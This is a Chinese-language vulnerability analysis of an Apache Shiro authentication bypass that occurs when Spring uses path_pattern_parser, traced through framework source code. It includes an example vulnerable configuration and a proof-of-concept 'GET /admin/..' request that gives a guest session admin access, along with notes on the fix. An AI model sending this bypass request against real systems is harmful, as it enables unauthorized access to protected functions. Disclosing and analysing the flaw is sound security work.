  
spring 获取 uri 是调用 getLookupPathForRequest, 又调用 ShiroUrlPathHelper.getPathWithinApplication，拿到的 uri 和 shiro 中的是一致的。  


##### 匹配

匹配便是 ant 风格的匹配。

#### path_pattern_parser

在 path_pattern_parser 模式下对应的是 PathPatternsRequestCondition.getMatchingCondition  


##### 获取 uri

`ServletRequestPathUtils.getParsedRequestPath(request).pathWithinApplication();`获取 uri。  
也是通过获取 PATH_ATTRIBUTE 属性，在 parseAndCache 中设置。  
  
parseAndCache 在 DispatcherServlet.doService 中调用。  
  
调用 ServletRequestPath.parse(request)  
  
然后通过 getRequestURI 获得。从注释可以看到，返回的应该是没有 decode 以及解析`..`的原始值。  


漏洞利用
----

所以，就如漏洞描述中写的，当 spring 中使用 path_pattern_parser 配置的时候，就会造成在 shiro 和 spring 中路由分发时候获取 uri 时的结果差异。  
也就可能造成 shiro 中鉴权绕过。  
例如 shiro 中配置路由规则如下：

```
DefaultShiroFilterChainDefinition chainDefinition = new DefaultShiroFilterChainDefinition();
chainDefinition.addPathDefinition("/login.html", "authc"); 
chainDefinition.addPathDefinition("/logout", "logout");
chainDefinition.addPathDefinition("/admin/**", "roles[admin]");
chainDefinition.addPathDefinition("/guest/**", "roles[guest]");


```

在 controller 中如下设置：

```
@Controller
public class AccountInfoController {
    @RequestMapping("/admin/**")
    public String home(Model model) {
        String name = "World";
        Subject subject = SecurityUtils.getSubject();
        PrincipalCollection principalCollection = subject.getPrincipals();
        if (principalCollection != null && !principalCollection.isEmpty()) {
            name = principalCollection.getPrimaryPrincipal().toString();
        }
        model.addAttribute("name", name);
        return "account-info";
    }


```

正常来说，应该之后 admin 角色才能访问 AccountInfoController 的 home。  


  
但如果利用 shiro 会解析`..`而 spirng 不会的差异，可以发送如下请求，使 guest 的 cookie 可以访问这个接口。

```
GET /admin/.. HTTP/1.1
Host: 127.0.0.1:8081
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:108.0) Gecko/20100101 Firefox/108.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Cookie: JSESSIONID=f75894a9-955f-4778-b78e-bf6ae7c6f423
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1


```

  
因为 shiro 认为这是一个`/`的请求，但 spring 最后会分发到`/admin/**`上。

漏洞修复
----



shiro 在 1.11.0 中强制使用 ant_path_matcher...

else
----

### 利用

感觉这个漏洞的危害不高。  
因为这个要依靠特定的配置才能打通。简单说就是 spring 中的 RequestMapping 要能匹配多级路径或者至少二级。  
下面的写法都可能造成绕过。

```
@RequestMapping("/admin/**")
@RequestMapping("/admin/*")
@RequestMapping("/admin/{*path}")


```

但如果只写成`@RequestMapping("/admin")`应该是无法利用的。  
另外，如果利用注释去为函数设置权限，将会在最终 spring 匹配成功后真正进行 invoke 的时候调用鉴权，导致无法利用。  


### 杂谈

记录一下在看跟源码的时候看到的一种我没见过的 if else 写法  


---

> 来源：MrWQ/vulnerability-paper（https://github.com/MrWQ/vulnerability-paper）
